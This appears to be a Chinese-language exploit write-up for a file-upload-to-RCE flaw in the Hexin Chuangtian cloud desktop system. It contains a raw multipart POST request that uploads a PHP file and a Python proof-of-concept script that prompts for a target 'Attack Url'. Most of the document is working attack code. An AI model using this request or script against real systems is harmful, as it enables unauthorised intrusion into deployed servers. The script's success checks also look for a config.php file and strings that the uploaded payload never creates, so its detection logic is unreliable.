


# 和信创天云桌面系统 远程命令执行 RCE漏洞

# 漏洞描述

和信创天云桌面系统存在默认配置导致文件上传并可以远程命令执行

## 漏洞影响

```
和信创天云桌面系统
```

## 漏洞复现

登录页面如下


发送请求包如下


```plain
POST /Upload/upload_file.php?l=1 HTTP/1.1
Host: xxx.xxx.xx.xxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/*,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,fil;q=0.8
Cookie: think_language=zh-cn; PHPSESSID_NAMED=h9j8utbmv82cb1dcdlav1cgdf6
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryfcKRltGv
Content-Length: 182

------WebKitFormBoundaryfcKRltGv
Content-Disposition: form-data; name="file"; filename="test.php"
Content-Type: image/avif

<?php phpinfo(); ?>
------WebKitFormBoundaryfcKRltGv--
```


访问


```plain
http://xxx.xx.xxx.xxx/Upload/1/test.php
```





## 漏洞POC


```python
import requests
import sys
import random
import base64
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: 和信云桌面任意文件上传漏洞                                       \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mCmd         >>> whoami                                            \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/Upload/upload_file.php?l=test"
    headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)",
            "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryfcKRltGv"
    }
    data = base64.b64decode("Q29udGVudC1UeXBlOiBtdWx0aXBhcnQvZm9ybS1kYXRhOyBib3VuZGFyeT0tLS0tV2ViS2l0Rm9ybUJvdW5kYXJ5ZmNLUmx0R3YKCi0tLS0tLVdlYktpdEZvcm1Cb3VuZGFyeWZjS1JsdEd2CkNvbnRlbnQtRGlzcG9zaXRpb246IGZvcm0tZGF0YTsgbmFtZT0iZmlsZSI7IGZpbGVuYW1lPSJ0ZXN0LnBocCIKQ29udGVudC1UeXBlOiBpbWFnZS9hdmlmCgo8P3BocCBwaHBpbmZvKCk7Pz4KLS0tLS0tV2ViS2l0Rm9ybUJvdW5kYXJ5ZmNLUmx0R3YtLQ==")
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        if "Requst" in response.text and response.status_code == 200:
            webshell_url = target_url + "/Upload/test/config.php"
            response = requests.get(url=webshell_url, headers=headers,verify=False, timeout=5)
            if "shell" in response.text and response.status_code == 200:
                print("\033[32m[o] 目标 {}存在漏洞 config.php\n[o] 路径为 {}/Upload/test/config.php\033[0m".format(target_url, target_url))
            else:
                print("\033[31m[x] 请求失败 \033[0m")
                sys.exit(0)
        else:
            print("\033[31m[x] 上传失败 \033[0m")
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```


